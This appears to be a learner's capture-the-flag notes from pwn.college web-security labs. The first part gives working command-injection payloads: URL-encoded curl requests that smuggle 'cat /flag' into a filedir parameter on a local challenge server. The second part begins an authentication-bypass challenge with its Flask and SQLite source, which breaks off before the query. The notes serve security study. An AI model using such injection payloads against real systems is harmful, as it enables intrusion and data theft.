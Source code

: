 - It do not seem to work injecting in the direct website, but if we send it url encoded with curl or in the url of the browser, it works. 
- **Idea on why it does not work via the text box:** The input in the textbox gets translated into a new url, this can mess up things. Sending our payload directly to the url or via curl lets us bypass this translation. 

```
Get executed on the server: ls -la {/challenge \ncat /flag} = 
ls -la /challenge
cat /flag

Works:
curl -v http://challenge.localhost/puzzle?filedir=%2Fchallenge%0acat+%2Fflag

curl -v http://challenge.localhost/puzzle?filedir=%2Fchallenge%0Acat+%2Fflag

curl -v http://challenge.localhost/puzzle?filedir=%2Fchallenge%0Acat%20%2Fflag

curl -v http://challenge.localhost/puzzle?filedir=%0Acat%20%2Fflag
```


**Authentication bypass 1:**
```python
#!/opt/pwn.college/python

import tempfile
import sqlite3
import flask
import os

app = flask.Flask(__name__)

# Don't panic about this class. It simply implements a temporary database in which
# this application can store data. You don't need to understand its internals, just
# that it processes SQL queries using db.execute().
class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result

db = TemporaryDB()
# https://www.sqlite.org/lang_createtable.html
db.execute("""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [os.urandom(8)])
# https://www.sqlite.org/lang_insert.html
db.execute("""INSERT INTO users SELECT "guest" as username, "password" as password""")

@app.route("/", methods=["POST"])
def challenge_post():
    username = flask.request.form.get("username")
    password = flask.request.form.get("password")
    if not username:
        flask.abort(400, "Missing `username` form parameter")
    if not password:
        flask.abort(400, "Missing `password` form parameter")

    # https://www.sqlite.org/lang_select.html
```